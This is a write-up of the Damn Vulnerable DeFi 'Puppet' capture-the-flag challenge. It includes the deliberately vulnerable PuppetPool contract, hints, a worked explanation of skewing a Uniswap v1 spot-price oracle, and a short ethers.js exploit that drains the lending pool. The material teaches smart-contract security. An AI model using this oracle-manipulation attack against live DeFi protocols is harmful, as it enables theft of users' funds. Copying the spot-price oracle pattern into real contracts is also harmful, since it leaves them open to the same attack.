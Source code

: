 ```yaml
---
layout: post
title: 'Damn Vulnerable Defi 8: Puppet'
category: Damn Vulnerable Defi
excerpt_separator:  <!--more-->
---
```


### Challenge:
Our eighth challenge is called 'puppet' and it comes with the following prompt:

```
There's a huge lending pool borrowing Damn Valuable Tokens (DVTs), where you first need to deposit twice the borrow amount in ETH as collateral. The pool currently has 100000 DVTs in liquidity.

There's a DVT market opened in an Uniswap v1 exchange, currently with 10 ETH and 10 DVT in liquidity.

Starting with 25 ETH and 1000 DVTs in balance, you must steal all tokens from the lending pool.
```

Once more, our mission is to drain the lending pool!

The contracts for this challenge are located in contracts/puppet/. The contract source code can be found below:

<details>
<summary> PuppetPool.sol:</summary>
<br>
<div markdown="1">
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/security/ReentrancyGuard.sol";
import "@openzeppelin/contracts/utils/Address.sol";
import "../DamnValuableToken.sol";

/**
 * @title PuppetPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract PuppetPool is ReentrancyGuard {

    using Address for address payable;

    mapping(address => uint256) public deposits;
    address public immutable uniswapPair;
    DamnValuableToken public immutable token;
    
    event Borrowed(address indexed account, uint256 depositRequired, uint256 borrowAmount);

    constructor (address tokenAddress, address uniswapPairAddress) {
        token = DamnValuableToken(tokenAddress);
        uniswapPair = uniswapPairAddress;
    }

    // Allows borrowing `borrowAmount` of tokens by first depositing two times their value in ETH
    function borrow(uint256 borrowAmount) public payable nonReentrant {
        uint256 depositRequired = calculateDepositRequired(borrowAmount);
        
        require(msg.value >= depositRequired, "Not depositing enough collateral");
        
        if (msg.value > depositRequired) {
            payable(msg.sender).sendValue(msg.value - depositRequired);
        }

        deposits[msg.sender] = deposits[msg.sender] + depositRequired;

        // Fails if the pool doesn't have enough tokens in liquidity
        require(token.transfer(msg.sender, borrowAmount), "Transfer failed");

        emit Borrowed(msg.sender, depositRequired, borrowAmount);
    }

    function calculateDepositRequired(uint256 amount) public view returns (uint256) {
        return amount * _computeOraclePrice() * 2 / 10 ** 18;
    }

    function _computeOraclePrice() private view returns (uint256) {
        // calculates the price of the token in wei according to Uniswap pair
        return uniswapPair.balance * (10 ** 18) / token.balanceOf(uniswapPair);
    }

     /**
     ... functions to deposit, redeem, repay, calculate interest, and so on ...
     */

}
```
</div>
</details>

The hints and solutions for this level can be found below:

<details>
<summary> Hint 1:</summary>
<br>
<div markdown="1">
As I'm sure you're realizing, this level is all about manipulating the uniswap v1 pool. What is wrong with the way the _computeOraclePrice() function calculates the price of the token? (hint: read up on uniswap v1 if you are unsure how the exchange's balances can be changed)
</div>
</details>

<details>
<summary> Hint 2:</summary>
<br>
<div markdown="1">
https://hackmd.io/@HaydenAdams/HJ9jLsfTz#ETH-%E2%87%84-ERC20-Trades
https://github.com/Uniswap/v1-contracts/blob/master/contracts/uniswap_exchange.vy
</div>
</details>

<details>
<summary> Solution:</summary>
<br>
<div markdown="1">
Right away, we can see that the loans are offered based on the value returned by the `_computeOraclePrice()` function. Digging into that function a little bit, we can see that if we can alter the ratio of the exchange's ether balance to DVT balance, we can greatly affect the collateral requirements for the loan. This is where you have to dig into uniswap v1 to understand its swap mechanism and understand how to interact with the deployed exchange contract. What we do know on the surface is that we want to decrease the amount of ETH in the contract and increase the amount of DVT in the contract to benefit us. Reading through the documentation, you should be able to discover the `tokenToEthSwapInput()` function. This is excatly what we can use to perform our actions. Below is the code from github:
```
def tokenToEthSwapInput(tokens_sold: uint256, min_eth: uint256(wei), deadline: timestamp) -> uint256(wei):
    return self.tokenToEthInput(tokens_sold, min_eth, deadline, msg.sender, msg.sender)

def tokenToEthInput(tokens_sold: uint256, min_eth: uint256(wei), deadline: timestamp, buyer: address, recipient: address) -> uint256(wei):
    assert deadline >= block.timestamp and (tokens_sold > 0 and min_eth > 0)
    token_reserve: uint256 = self.token.balanceOf(self)
    eth_bought: uint256 = self.getInputPrice(tokens_sold, token_reserve, as_unitless_number(self.balance))
    wei_bought: uint256(wei) = as_wei_value(eth_bought, 'wei')
    assert wei_bought >= min_eth
    send(recipient, wei_bought)
    assert self.token.transferFrom(buyer, self, tokens_sold)
    log.EthPurchase(buyer, tokens_sold, wei_bought)
    return wei_bought
```

Let's see what happens if we put in all of our attacker's DVT.

```
ETH_Pool = 10
DVT_Pool = 10

invariant = 10*10 = 100

Fee = 1000 * 0.003 = 3 DVT
DVT_Pool = 10 + 1000 = 1010
ETH_Pool = 100 / (1007) = 0.0993 ETH

Attacker receives: 10 - 0.0993 ETH = 9.9007 ETH
Attacker ETH balance: 34.9007
Attacker DVT balance: 0

_computeOraclePrice() = 0.0993 / 1010 = 0.00009831683 * 2 = 0.00019663366


borrowAmount = 100000 * 0.00019663366 = 19.66 ETH
```
So, if we perform the swap with all of our tokens to augment the exchange ratio in our favor, we can see that we will be left with far more ETH than is required to drain the entire lending pool of DVT. We can then call `borrow()` with a msg.value greater than 19.66 ETH and we will obtain all of the funds of the lending pool!


</div>
</details>

<details>
<summary> Ethers Solution:</summary>
<br>
<div markdown="1">
```
    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
        let deadline = (await ethers.provider.getBlock('latest')).timestamp * 2
        await this.token.connect(attacker).approve(this.uniswapExchange.address,ATTACKER_INITIAL_TOKEN_BALANCE);
        await this.uniswapExchange.connect(attacker).tokenToEthSwapInput(ATTACKER_INITIAL_TOKEN_BALANCE.sub(1), 1, deadline);
        await this.lendingPool.connect(attacker).borrow(POOL_INITIAL_TOKEN_BALANCE, {value: ethers.utils.parseEther('20')});
    });
```
</div>
</details>
